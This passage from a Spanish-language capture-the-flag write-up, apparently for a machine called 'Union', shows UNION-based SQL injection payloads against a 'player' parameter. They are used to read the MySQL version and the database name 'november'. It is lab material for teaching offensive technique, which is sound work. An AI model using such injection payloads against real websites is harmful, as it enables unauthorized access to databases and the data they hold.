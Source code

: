 ```
player=' union select 1-- - 
```

Listamos la `versión` para ver ante que nos estamos enfrentando, usualmente nos devolverá el nombre de la `base de datos` en uso, pero en este caso no es así

![](/assets/img/Union/image_8.png)

```
player=' union select version()-- - 
```

Si hacemos esta búsqueda en google `8.0.27-0ubuntu0.20.04.1 database`, veremos que estamos ante un `mysql`

![](/assets/img/Union/image_9.png)

La base de datos a la que nos enfrentamos se llama `november`

![](/assets/img/Union/image_10.png)
```
player=' union select database()-- - 
```
